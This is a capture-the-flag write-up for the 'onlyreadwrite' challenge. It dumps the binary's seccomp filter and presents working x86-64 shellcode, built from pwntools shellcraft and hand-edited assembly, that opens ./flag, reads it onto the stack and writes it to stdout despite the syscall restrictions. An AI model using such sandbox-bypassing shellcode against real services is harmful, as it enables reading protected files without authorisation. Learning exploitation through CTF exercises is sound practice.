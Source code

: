 # onlyreadwrite

This challenge reads shellcode from stdin and executes it. The problem is that the syscalls that we can use are limited.

## What syscalls can we use?

To find out what syscalls we can use there is the following command:

```bash
seccomp-tools dump ./onlyreadwrite
```

Some details about the tool can be found [here](https://github.com/david942j/seccomp-tools).

The output of the command is the following:

```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

Then only open, read and write are allowed (and some other syscalls that we don't need).

## The shellcode

Now that we know that we can use just a few syscalls, we can start writing the shellcode.

The idea was to use shellcraft to generate the shellcode for the open-read-write sequence.

```python
shellcode = pwnlib.shellcraft.amd64.linux.open('./flag', 0, 0)
shellcode += pwnlib.shellcraft.amd64.linux.read(FD_READ, 'rsp', 100)
shellcode += pwnlib.shellcraft.amd64.linux.write(FD_WRITE = 1, 'rsp', 100)
```

The problem is that (afaik) there is no way to get the file descriptor from the open syscall and use it as argument for the read.

So i generated the assembly from shellcraft and slightly modified it to get the file descriptor in RDI (where the read syscall expects it).

```asm
; push './flag' on the stack
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f2e
xor [rsp], rax

; call open(RDI -> './flag', 0, 0)
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 */
push SYS_open /* 2 */
pop rax /* -> 2 */
syscall

; call read(RDI -> RAX = fd of './flag', RSI = 'rsp', RDX = 0x64)
push rax
xor eax, eax /* SYS_read */
pop rdi ; -> fd  returned by open
push 0x64
pop rdx
mov rsi, rsp
syscall

; call write(fd=1 (stdout), RSI = 'rsp', RDX =0x64)
push 1
pop rdi
push 0x64
pop rdx
mov rsi, rsp
push SYS_write ; 1
pop rax
syscall
```

Basically it is opening the file, reading it on the stack and then writing it on stdout.
